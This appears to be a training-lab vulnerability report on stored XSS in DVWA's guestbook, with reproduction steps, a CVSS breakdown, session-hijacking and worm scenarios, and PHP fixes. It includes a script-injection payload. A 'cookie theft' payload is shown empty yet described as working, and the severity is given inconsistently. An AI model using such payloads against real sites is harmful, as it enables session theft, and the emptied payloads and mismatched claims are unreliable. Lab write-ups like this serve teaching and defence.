



# Vulnerability Report: Stored XSS

## Executive Summary
A Stored Cross-Site Scripting (XSS) vulnerability was discovered in the DVWA guestbook that allows an attacker to execute persistent JavaScript affecting all users who view the page.

## Vulnerability Details

**Severity**: High (CVSS 7.1)
**Type**: Stored Cross-Site Scripting (XSS)
**Location**: http://localhost/vulnerabilities/xss_s/
**Parameters**: txtName, mtxMessage (POST)
**CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
**Date Discovered**: 2026-01-16
**Discovered By**: Lakshan

## Description
The guestbook functionality stores user input in the database without sanitization and displays it to all viewers without encoding. This results in persistent JavaScript execution that affects every user who visits the page, making it more dangerous than reflected XSS.

## Proof of Concept

### Step-by-Step Reproduction:
1. Navigate to: http://localhost/vulnerabilities/xss_s/
2. Ensure security level is set to "Low"
3. Fill in the guestbook form:
   - **Name**: TestUser
   - **Message**: `<script>alert('Stored XSS')</script>`
4. Click "Sign Guestbook"
5. Observe immediate JavaScript alert
6. Refresh the page (F5)
7. Alert appears again - proving persistence

### Payloads Tested:

**Payload 1: Basic Persistent Alert**
```html
Name: TestUser
Message: <script>alert('Stored XSS')</script>
```
Result: ✓ Alert displays on every page load

**Payload 2: Cookie Theft (All Users)**
```html
Name: Attacker
Message: <script>document.write('');</script>
```
Result: ✓ Would exfiltrate cookies from all visitors

**Payload 3: Image Tag XSS**
```html
Name: TestUser2
Message: 
```
Result: ✓ Persistent execution via image error

### Screenshots:





## Impact Analysis

### CVSS v3.1 Score: 7.1 (HIGH)

**Vector String**: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:N

**Breakdown:**
- **Attack Vector**: Network
- **Attack Complexity**: Low
- **Privileges Required**: Low (must have account to post)
- **User Interaction**: None (automatic execution)
- **Scope**: Unchanged
- **Confidentiality**: High (can steal from all users)
- **Integrity**: Low
- **Availability**: None

### Why Stored XSS is MORE DANGEROUS:

1. **Persistent** - Stored in database permanently
2. **Affects ALL users** - Not just one victim
3. **No social engineering** - Executes automatically
4. **Difficult to detect** - Looks like normal content
5. **Wide impact** - Can create worm-like spreading

### Attack Scenarios:

**Scenario 1: Mass Session Hijacking**
- Attacker posts malicious guestbook entry
- Entry stored in database
- Every visitor's browser executes the payload
- Payload sends cookies to attacker
- Attacker collects hundreds of session cookies
- Mass account compromise

**Scenario 2: XSS Worm**
- Malicious script posts itself as new comment
- Each infected user posts the script again
- Spreads automatically across the application
- Similar to Samy worm on MySpace (2005)

## Remediation

### Recommended Fixes:

**1. Output Encoding**
```php
<?php
while ($row = mysqli_fetch_assoc($result)) {
    echo htmlspecialchars($row['name'], ENT_QUOTES, 'UTF-8') . ": ";
    echo htmlspecialchars($row['comment'], ENT_QUOTES, 'UTF-8');
}
?>
```

**2. Input Sanitization (Defense in Depth)**
```php
<?php
$name = strip_tags($_POST['txtName']);
$message = strip_tags($_POST['mtxMessage']);
// Then use prepared statements to store
?>
```

**3. Content Security Policy**
```php
header("Content-Security-Policy: default-src 'self'; script-src 'self'");
```

### Priority: HIGH
**Timeline**: Fix within 7 days

## References
- OWASP XSS Guide
- CWE-79
- Samy Worm Case Study

## Report Information
- **Discovered by**: Lakshan
- **Date**: 2026-01-16
- **Application**: DVWA v1.10
- **Status**: Confirmed - Critical Risk